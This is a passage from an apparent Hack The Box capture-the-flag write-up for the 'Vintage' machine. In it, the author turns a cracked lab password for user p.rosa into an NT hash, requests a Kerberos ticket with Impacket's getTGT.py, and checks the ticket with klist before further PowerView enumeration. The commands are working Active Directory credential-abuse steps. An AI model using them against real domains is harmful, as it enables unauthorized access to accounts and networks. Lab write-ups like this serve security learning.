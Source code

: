we got different results here its probably Machine account but still found something more usefull

And yeah i was correct.
![alt text](../assets/images/vintage6.png)

Nice lets enum FS01 machine account more with [PowerView](https://github.com/aniqfakhrul/powerview.py)

### login-powerview

```bash
➜  Vintage getTGT.py -hashes :$(pypykatz crypto nt 'Rosaisbest123') 'vintage.htb'/'p.rosa'@10.10.11.45
Impacket v0.13.0.dev0+20250404.133223.00ced47f - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in p.rosa@10.10.11.45.ccache
```

lets export it and look klist.

```bash
➜  Vintage export KRB5CCNAME=p.rosa@10.10.11.45.ccache
➜  Vintage klist
Ticket cache: FILE:p.rosa@10.10.11.45.ccache
Default principal: p.rosa@VINTAGE.HTB

Valid starting       Expires              Service principal
04/24/2025 15:50:14  04/25/2025 01:50:14  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 04/25/2025 15:50:14
```
